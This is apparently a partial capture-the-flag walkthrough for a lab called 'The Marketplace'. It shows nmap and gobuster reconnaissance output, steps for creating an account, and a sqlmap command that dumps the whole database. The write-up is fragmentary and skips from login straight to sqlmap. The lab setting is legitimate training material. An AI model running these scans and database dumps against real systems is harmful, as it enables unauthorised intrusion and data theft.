 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.




```bash
sqlmap -r request.txt --dbms=mysql --dump
# -r uses the intercepted request you saved earlier
# --dbms tells SQLMap what type of database management system it is
# --dump attempts to outputs the entire database
```


